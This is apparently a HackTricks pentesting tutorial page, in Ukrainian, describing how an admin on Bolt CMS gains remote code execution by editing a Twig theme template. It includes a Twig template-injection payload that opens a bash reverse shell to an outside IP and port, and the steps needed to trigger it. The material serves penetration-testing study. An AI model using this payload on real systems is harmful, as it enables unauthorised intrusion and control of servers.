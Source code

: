 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Після входу як адміністратор (перейдіть на /bot для доступу до форми входу), ви можете отримати RCE в Bolt CMS:

- Виберіть `Configuration` -> `View Configuration` -> `Main Configuration` або перейдіть за URL-адресою `/bolt/file-edit/config?file=/bolt/config.yaml`
- Перевірте значення теми

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Виберіть `File management` -> `View & edit templates`
- Виберіть базову тему, знайдену на попередньому (`base-2021` в цьому випадку) кроці, і виберіть `index.twig`
- У моєму випадку це за URL-адресою /bolt/file-edit/themes?file=/base-2021/index.twig
- Вставте свій payload у цей файл через [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), наприклад: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- І збережіть зміни

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Очистіть кеш у `Maintenance` -> `Clear the cache`
- Знову отримайте доступ до сторінки як звичайний користувач, і payload має бути виконано

{{#include ../../banners/hacktricks-training.md}}
